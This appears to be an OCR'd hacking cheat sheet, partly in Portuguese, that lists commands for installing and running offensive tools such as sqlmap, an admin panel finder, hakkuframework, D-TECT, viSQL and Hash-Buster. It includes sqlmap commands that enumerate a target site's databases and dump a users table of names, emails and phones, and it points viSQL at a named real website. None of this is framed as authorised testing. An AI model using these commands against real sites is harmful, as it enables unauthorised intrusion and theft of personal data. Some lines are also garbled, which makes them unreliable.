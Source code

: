 $ ls
$ python2 fsociety.py
SQLMAP 
apt update
apt install python
apt install python2
apt install git
git clone https://github.com/sqlmapproject/sqlmap
https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
Python2 sqlmap.py
Exemplo
Python2 sqlmap.py -u website –dbs
-D acuart –tables
-D acuart -T users –columns
-D acuart -T users -C name,email,phone -dump
BUSCA PAINEL ADM DE SITE
pkg install git
git clone https://github.com/Techzindia/admin_penal
cd admin_penal
chmod +x admin_panel_finder.py
python2 admin_panel_finder.py
HAKKU
apt install pytho
apt install git
mkdir vasu
git clone https://github.com/4shadoww/hakkuframework
cd hakkuframework
chmod +x hakku
python hakku
show modules
use whois
show options
set target examplesite.com
run
TOOL D-TECT
apt update
apt install git
git clone https://github.com/shawarkhanethicalhacker/D-TECT
cd D-TECT
apt install python2
chmod +x d-tect.py
python2 d-tect.py
examplesite.com
viSQL
apt update
apt install python2
apt install git
git clone https://github.com/blackvkng/viSQL
cd viSQL
python2 -m pip install -r requirements.txt
python2 viSQL.py
python2 viSQL.py -t http://www.bible-history.com
Hash Buster
apt update
apt upgrade
apt install python2
apt install git
git clone https://github.com/UltimateHackers/Hash-Buster
cd Hash-Buster
python2 hash.py
tool ubuntu
$ apt update
$ apt install git
